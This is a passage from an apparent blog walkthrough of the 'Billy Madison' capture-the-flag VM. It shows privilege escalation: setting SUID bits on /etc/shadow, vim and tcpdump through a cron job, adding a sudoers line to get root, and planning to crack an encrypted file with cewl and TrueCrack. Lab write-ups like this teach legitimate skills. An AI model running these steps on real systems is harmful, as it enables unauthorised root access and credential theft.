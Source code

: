{% highlight bash %}
chmod u+s /etc/shadow
chmod u+s /usr/bin/vim
chmod u+s /usr/sbin/tcpdump
{% endhighlight %}

Now to wait about an hour.  Interestingly enough I had never noticed before that the default for crontab is to run the cron.hourly at the 17-minute mark and not precisely on the hour.

After an hour I checked the permissions on nano

{% highlight bash %}
eric@BM:~$ ls -al /bin/nano
-rwsr-xr-x 1 root root 208480 Mar 29 04:16 /bin/nano
{% endhighlight %}

YES!  Nano was now a SUID binary.  A simple editing of `/etc/sudoers` should do the trick now and give eric sudo privileges.  I added the following line to the sudoers file

{% highlight bash %}
eric  ALL=(ALL:ALL) ALL
{% endhighlight %}

And now for the moment of truth.  Can I become root?

{% highlight bash %}
eric@BM:~$ sudo su
[sudo] password for eric:
root@BM:/home/eric# id
uid=0(root) gid=0(root) groups=0(root)
root@BM:/home/eric# -
{% endhighlight %}

Awesome!  Now that I have root it is time to complete the tasks to win the VM.  

## Finding Billy's paper

Ok now as root lets go find that paper!  I noticed during my sifting through the drive that there is a /PRIVATE folder that I couldn't get into.  So lets go check that one out.

{% highlight bash %}
root@BM:/PRIVATE# file BowelMovement
BowelMovement: data
root@BM:/PRIVATE# cat hint.txt
Heh, I called the file BowelMovement because it has the same initials as
Billy Madison.  That truely cracks me up!  LOLOLOL!

I always forget the password, but it's here:

https://en.wikipedia.org/wiki/Billy_Madison

-EG
root@BM:/PRIVATE# -
{% endhighlight %}

Nice Ok, so found the report but it's encrypted, go figure.  Thankfully Eric left us a hint of a wiki page.  First thought that pops into my head is to use cewl to make a word list from the page and then crack it.  At this point, I started trying to figure out what kind of encryption was used and came up a bit empty.  The only one I figured it would be as it had no header information would be Truecrypt.  So lets try TrueCrack.
